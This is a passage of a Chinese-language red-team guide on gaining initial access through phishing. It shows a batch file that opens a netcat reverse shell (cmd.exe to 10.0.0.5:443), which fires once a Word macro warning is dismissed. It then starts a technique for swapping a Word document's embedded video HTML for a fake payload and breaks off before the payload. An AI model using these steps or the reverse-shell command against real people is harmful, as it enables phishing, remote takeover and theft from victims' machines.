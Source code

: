 ![](初始访问\6.png)

请注意，shell.cmd 指的是一个简单的 nc 反向 shell 批处理文件：

```
c:\shell.cmd

C:\tools\nc.exe 10.0.0.5 443 -e cmd.exe
```

一旦宏警告被消除，反向 shell 将按预期弹出：

## 网络钓鱼：用虚假有效负载替换嵌入式视频

创建一个新的 Word 文档并转到“插入”>“在线视频”：

插入任意视频：

将 .docx 重命名为 .zip：

在任何代码编辑器中打开：`document.xml`

请注意该`embeddedHtml`属性 - 这是当前嵌入 YouTube iframe 的位置：

![](初始访问\7.png)
